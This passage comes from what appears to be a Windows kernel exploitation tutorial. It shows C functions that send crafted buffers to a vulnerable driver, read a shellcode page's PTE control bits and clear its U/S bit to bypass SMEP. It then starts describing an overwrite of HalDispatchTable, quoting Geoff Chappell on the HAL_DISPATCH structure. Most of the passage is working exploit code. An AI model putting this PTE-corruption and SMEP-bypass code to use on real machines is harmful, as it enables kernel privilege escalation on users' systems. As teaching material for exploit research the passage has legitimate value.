 ```c
	memcpy(buffer, &shellcodePte, oneQword);
	memcpy(&buffer[0x8], &pteControlFlagsPointer, oneQword);

	sendBufferToDriver(hDriver, buffer);

	LOG("[+] PTE control bits for shellcode page: %p\n", (unsigned long long) * pteControlFlagsPointer);

	return (unsigned long long) * pteControlFlagsPointer;
}
```

Lastly, let's change the `U/S` flag -
```c
void changeUSFlag(HANDLE hDriver, unsigned long long pteControlFlags , unsigned long long shellcodePte) {

	// Corrupting U/S bit in PTE to make user mode page become kernel mode.
	unsigned long long taintedPte;
	taintedPte = pteControlFlags & 0xFFFFFFFFFFFFFFFB;

	// Defining pointer for corrupted PTE bits.
	PULONGLONG taintedptePointer = &taintedPte;

	// Defining buffer to send to driver.
	char buffer[0x10];
	size_t oneQword = 0x8;

	// Initializing buffer to junk to satisfy type error of memset.
	memset(buffer, 0x41, 0x10);

	// Actual buffer for corrupting PTE.
	memcpy(buffer, &taintedptePointer, oneQword);
	memcpy(&buffer[0x8], &shellcodePte, oneQword);

	// Print update for corrupting PTE
	LOG("[+] Corrupting PTE of shellcode to make U/S bit kernel mode...\n");

	sendBufferToDriver(hDriver, buffer);
}
```

So, at this point we can say "good bye" to SMEP and continue into modifying the pointer inside `HalDispatchTable`.

### Modifying HalDispatchTable
From "Geoff Chappell" -
> The HAL_DISPATCH structure is a table of pointers to optional HAL functionality. The kernel keeps the one instance of this table. It’s in the kernel’s read-write data section and its address is exported as HalDispatchTable. The table initially has the kernel’s built-in implementations of most (but not all) functions. Many are trivial. Some are substantial. The HAL overrides some. No known HAL overrides all. Functionality that has no meaning to a particular HAL is left to the kernel’s default (and HAL programmers are spared from writing even dummy code for nothing that matters to them). Moreover, since the address is exported, rather than communicated specifically to the HAL, it seems to have been intended all along that the functionality is exposed to other kernel-mode modules such as drivers not only for them to call but also to override further.
